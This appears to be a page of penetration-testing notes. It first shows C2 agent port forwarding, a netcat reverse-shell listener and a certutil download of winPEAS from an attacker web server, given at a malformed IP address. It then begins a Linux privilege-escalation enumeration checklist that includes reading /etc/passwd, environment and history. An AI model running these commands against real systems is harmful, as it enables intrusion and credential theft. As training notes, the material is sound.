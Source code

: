 ```bash
[Agent : INTERNAL\Localadmin@WinPC01] >> listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444

[Agent : INTERNAL\Localadmin@WinPC01] >> listener_list
```

```bash
$ rlwrap nc -lvnp 4444
```

> Adding a listener to transfer winpeas to the client, forwarded to web server running on pentest box 

```bash
[Agent : INTERNAL\Localadmin@WinPC01] >> listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80

[Agent : INTERNAL\Localadmin@WinPC01] >> listener_list
```

```bash
$ python3 -m http.server 80
```

```powershell
PS C:\Users\Public> certutil -urlcache -f http://10.10.10.120.131:1235/winpeas64.exe winpeas.exe

```


---

## Linux Privilege Escalation


---

- In order to understand what a particular Linux command does, use: [https://www.explainshell.com/](https://www.explainshell.com/)
- Important Resource: [https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/](https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/)
- Privilege escalation is the technique used to escalate our privileges from lower user to higher user(interms of privileges)
- Once we obtain the higher level privilege on the system then we can do a lot of things on that system

---

### Enumeration:

- Here we're going to see few commands which help us in enumerating target system

1. `hostname` - lists the name of the host
2. `uname -a` - prints kernel information
3. `cat /proc/version` - prints almost same infor of above command but more like gcc version....
4. `cat /etc/issue` - exact version on the OS
5. `ps` - lists the processes that are running
    - `ps -A` - all running processes
    - `ps axjf` - process tree
    - `ps aux` - displays processes with the users as well
6. `env` - shows all the environment variable
7. `sudo -l` - lists the commands that any user run as root without password
8. `groups` - lists the groups that current user is in
9. `id` - lists id of group,user
10. `cat /etc/passwd` - displays all the user
    - `cat /etc/passwd | cut -d ":" -f 1` - removes other stuff & only displays users
    - `ls /home` - displays users
11. `history` - previously ran commands which might have some sensitive info
12. `ifconfig` (or) `ip a` (or) `ip route` - network related information
13. **netstat** - network route